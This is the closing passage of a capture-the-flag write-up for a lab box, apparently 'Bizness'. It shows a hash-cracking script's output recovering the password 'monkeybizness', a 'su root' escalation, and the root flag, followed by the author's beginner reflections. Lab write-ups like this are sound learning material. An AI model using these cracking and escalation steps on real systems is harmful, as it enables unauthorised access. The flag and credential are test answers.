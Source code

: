 I then enabled it to execute with `chmod +x`:

```
-[Wed Feb 28-14:22:41]-[table@parrot]-
-[~]$ python3 hashscript.py 
Processing:  10%|██████▎                                                       | 1451109/14344392 [00:01<00:13, 937919.46it/s]Found Password:monkeybizness, hash:$SHA1$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I=
Processing:  10%|██████▍                                                       | 1478437/14344392 [00:01<00:13, 944059.79it/s]

```

We got the plaintext password! Now let's `su root` and find the flag:

```
ofbiz@bizness:/opt/ofbiz$ su root
su root
Password: monkeybizness

root@bizness:/opt/ofbiz# cd /root
cd /root
root@bizness:~# ls
ls
root.txt
root@bizness:~# cat root.txt
cat root.txt
76603510ff7d01c18426619a4f002fd9

```

Root flag = <mark style="background-color:green;">76603510ff7d01c18426619a4f002fd9</mark>

I am glad I searched for a heavy hint as I am still green to penetration testing and I still learned so much with this box. I look forward to doing more and eventually completing the box without any hints.
